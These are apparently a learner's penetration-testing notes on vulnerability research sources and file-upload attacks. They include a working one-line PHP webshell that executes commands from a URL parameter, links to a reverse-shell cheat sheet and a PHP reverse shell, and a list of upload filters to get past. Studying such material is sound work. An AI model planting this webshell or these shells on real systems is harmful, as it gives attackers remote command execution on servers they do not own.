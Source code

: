 # Exploit Vulnerabilities 

## Automated and Manual Vulnerability Research 
* exploit DB  
* NVD 
* Rapid7 
* github  
    - search "poc" "vulnerability" "cve" 
* Searchsploit 



-------------------------------------
open redirect   
xss  
broken access control  
--------------------------------------


# Section 1: Web Vulnerabilities
## Upload Vulnerabilities  
### Overwriting Existing Files
The Key: upload the same file name 


### RCE 
enumeration upload point

#### php webshell
```php
<?php
    echo system($_GET["cmd"]);
?>
```
#### reverse/bind shells 
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

### Filtering 
- Extension Validation
- File Type Filtering 
    - MIME validation
    - Magic Number validation  
        at the very beginning of the file content
- File Length Filtering
- File Name Filtering 
- File Content Filtering
- File Content Filtering 
### 





